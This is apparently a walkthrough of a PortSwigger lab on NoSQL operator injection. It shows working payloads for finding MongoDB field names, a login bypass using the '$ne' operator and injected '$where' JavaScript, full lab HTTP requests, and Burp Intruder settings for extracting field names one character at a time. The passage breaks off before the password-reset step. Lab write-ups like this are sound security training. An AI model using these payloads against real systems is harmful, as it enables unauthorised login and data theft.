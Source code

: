 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/dc5af3c6-623e-490f-b857-cf1b1c2f9eaa)

## Overview :

#### Identifying field names

Because MongoDB handles semi-structured data that doesn't require a fixed schema, you may need to identify valid fields in the collection before you can extract data using JavaScript injection. 

For example, to identify whether the MongoDB database contains a **password** field, you could submit the following payload:
```
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'
```

Send the payload again for an existing field and for a field that doesn't exist. In this example, you know that the **username field exists**, so you could send the following payloads:
```
admin' && this.username!='
```

```
admin' && this.foo!='
```

> **If the password field exists, you'd expect the response to be identical to the response for the existing field (username)**, but different to the response for the field that doesn't exist (foo). 

#### Exploiting NoSQL operator injection to extract data ?

_Even if the original query doesn't use any operators that enable you to run arbitrary JavaScript, you may be able to inject one of these operators yourself_. You can then use boolean conditions to determine whether the application executes any JavaScript that you inject via `this` operator.

#### Extracting field names

If you have injected an operator that enables you to run JavaScript, you may be able to use the `keys()` method to extract the name of data fields. For example, you could submit the following payload:
```nosql
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

> This inspects the first data field in the user object and returns the first character of the field name. This enables you to extract the field name character by character. 

## Solution :

Try to login with carlos & some random password. The following is hte request being sent.

```http
POST /login HTTP/1.1
Host: 0aed0048046cb4b984524c2d00d400a3.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aed0048046cb4b984524c2d00d400a3.web-security-academy.net/login
Content-Type: application/json
Content-Length: 39
Origin: https://0aed0048046cb4b984524c2d00d400a3.web-security-academy.net
Connection: close
Cookie: session=Io6bfEgzmpTHn5IecCSuPDjHLIcB4DhP
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
"username":"carlos",
"password":"asfd"
}
```

Modify the request by adding `{"$ne" : "invalid"}` in the password field & see if we can bypass the login of carlos.
```json
{
"username":"carlos",
"password":{"$ne" :"invalid"}
}
```
But we get a response saying that **Account is locked.Please reset the password**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b5bcbf79-75cf-4d87-b263-a43a2dabc518)

#### Injecting $where operator in JSON body -

- Injecting `"$where" : "1"`

**Request -**
```json
{
"username":"carlos",
"password":{"$ne" :"invalid"},
"$where": "1"
}
```
**Response -**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/80d73400-e5a0-4a74-9560-3c40deefdfa7)

Here we get **Account locked** in response.

- Injecting `"$where" : "0"`

**Request -**
```json
{
"username":"carlos",
"password":{"$ne" :"invalid"},
"$where": "0"
}
```

**Response -**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5d5eeff0-4a3e-4c7f-83d1-313c73458187)

Here we get a different response - **Invalid username/password.**

### Extracting available field names -

Send the above request to repeater.

- Replace the `$where` parameter with this `"$where":"Object.keys(this)[0].match('^.{}.*')"` .
- Add 2 payload positions to bruteforce - `"$where":"Object.keys(this)[0].match('^.{§§}§§.*')"`

> 1. `"$where"`: This is a key in a JSON object, and it seems to be used to define a condition or filter.
>
> 2. "`Object.keys(this)[0]"`: This part of the expression is JavaScript code, not a regular expression. It's using the **Object.keys(this)** function to get an array of keys of the current object (this), and then [0] is used to access the first key in that array. So, it's essentially accessing the first key in the current object.


Set Attack Type - Cluster Bomb
Payload 1 - Numbers from 0-20
Payload 2 - Simple list - `a-z`, `A-Z`, `0-9`

Once the attack is over, sort **Payload1** & **Length** to find the **1st key field which is `id`**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/792074ba-5a58-430f-9b76-23c17a75077c)

- Repeat the attack by changing hte position from 1 to 2 in the array - `"$where":"Object.keys(this)[1].match('^.{§§}§§.*')"`

This time we got the **value of 2nd key - `username`**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c8d30d90-4167-4e8e-bf94-1990e741ab8c)

- Repeat the process for **3nd key field**, we got the value of 3rd field as - `password`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/53a08b01-c3ee-4244-9967-0ba625bd74f2)

### Chaining the exploit -

So where can we use the folllwoing fields which we identified? Possibly the **forgot-password** request.

Send the *GET /forgot-password* request to repeater.

